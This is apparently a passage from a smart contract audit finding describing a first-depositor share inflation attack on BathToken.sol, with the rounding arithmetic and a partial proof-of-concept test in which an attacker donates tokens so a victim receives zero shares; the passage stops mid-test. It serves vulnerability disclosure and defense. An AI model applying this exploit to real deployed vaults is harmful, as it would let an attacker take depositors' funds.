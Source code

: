 The attack vector and impact is the same as [TOB-YEARN-003](https://github.com/yearn/yearn-security/blob/master/audits/20210719\_ToB_yearn_vaultsv2/ToB\_-\_Yearn_Vault_v\_2\_Smart_Contracts_Audit_Report.pdf), where users may not receive shares in exchange for their deposits if the total asset amount has been manipulated through a large “donation”.

### Proof of Concept

In `BathToken.sol:569-571`, the allocation of shares is calculated as follows:

```js
(totalSupply == 0) ? shares = assets : shares = (
    assets.mul(totalSupply)
).div(_pool);
```

An early attacker can exploit this by:

*   Attacker calls `openBathTokenSpawnAndSignal()` with `initialLiquidityNew = 1`, creating a new bath token with `totalSupply = 1`
*   Attacker transfers a large amount of underlying tokens to the bath token contract, such as `1000000`
*   Using `deposit()`, a victim deposits an amount less than `1000000`, such as `1000`:
    *   `assets = 1000`
    *   `(assets * totalSupply) / _pool = (1000 * 1) / 1000000 = 0.001`, which would round down to `0`
    *   Thus, the victim receives no shares in return for his deposit

To avoid minting 0 shares, subsequent depositors have to deposit equal to or more than the amount transferred by the attacker. Otherwise, their deposits accrue to the attacker who holds the only share.

```js
it("Victim receives 0 shares", async () => {
    // 1. Attacker deposits 1 testCoin first when creating the liquidity pool
    const initialLiquidityNew = 1;
    const initialLiquidityExistingBathToken = ethers.utils.parseUnits("100", decimals);
    
    // Approve DAI and testCoin for bathHouseInstance
    await testCoin.approve(bathHouseInstance.address, initialLiquidityNew, {
        from: attacker,
    });
    await DAIInstance.approve(
        bathHouseInstance.address,
        initialLiquidityExistingBathToken,
        { from: attacker }
    );

    // Call open creation function, attacker deposits only 1 testCoin
    const desiredPairedAsset = await DAIInstance.address;
    await bathHouseInstance.openBathTokenSpawnAndSignal(
        await testCoin.address,
        initialLiquidityNew,
        desiredPairedAsset,
        initialLiquidityExistingBathToken,
        { from: attacker }
    );
    
    // Retrieve resulting bathToken address
    const newbathTokenAddress = await bathHouseInstance.getBathTokenfromAsset(testCoin.address);
    const _newBathToken = await BathToken.at(newbathTokenAddress);

    // 2. Attacker deposits large amount of testCoin into liquidity pool
    let attackerAmt = ethers.utils.parseUnits("1000000", decimals);
    await testCoin.approve(newbathTokenAddress, attackerAmt, {from: attacker});
    await testCoin.transfer(newbathTokenAddress, attackerAmt, {from: attacker});

    // 3. Victim deposits a smaller amount of testCoin, receives 0 shares
    // In this case, we use (1 million - 1) testCoin
```